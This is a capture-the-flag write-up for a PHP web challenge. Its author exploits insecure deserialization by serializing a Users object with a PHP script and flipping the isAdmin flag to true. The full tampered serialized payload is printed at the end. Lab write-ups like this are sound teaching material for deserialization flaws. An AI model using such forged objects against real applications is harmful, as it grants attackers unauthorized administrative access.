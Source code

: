Challenge Description :
### What do you know about OOP?

Looking at the landing page, a classic ref to the Source code.

![Alt text](image.png)

Checking the source Code we have a Class Users with the attributes:

![Alt text](image-1.png)

- string -> username
- string -> password
- boolean -> isAdmin
- string -> id

checking for the win condition we need to be admin, That's a simple deserlization attack , since we contrtol the deseralized data we can create an instance of the object in the runtime


Using the original code to create an instance of the class user with Useranme = 0x21AD and password = password cuz we have those two variables 

<?php

class Users
{
    private $username;
    private $password;
    private $isAdmin = false;
    private $id = '';

    public function __construct($username , $password)
    {
        $this -> username = $username;
        $this -> password = $password;
        $this -> isAdmin = false;
    }

    public function __isAdmin(){
        return $this -> isAdmin;
    }

    public function setUsername($username)
    {
        $this -> username = $username;
    }

    public function setPassword($password)
    {
        $this -> password = $password;
    }

    public function getUsername()
    {
        return $this -> username;
    }

    public function getPassword()
    {
        return $this -> password;
    }
}

$user = serialize(new Users("0x21AD" , "yuri"));

echo $user;

?>

and we get our payload  :
![Alt text](image-2.png)

#### But we have a prefix `Users` appended to all the attributes values.
All we need to do is to either manually modify the payload or use chatgpt (lazy way)!

Just modify the boolean value of isAdminto be 1 which means True and we get our final working payload:

`O:5:"Users":4:{s:8:"username";s:6:"0x21AD";s:8:"password";s:4:"yuri";s:7:"isAdmin";b:1;s:2:"id";s:0:"";}`


![Alt text](image-3.png)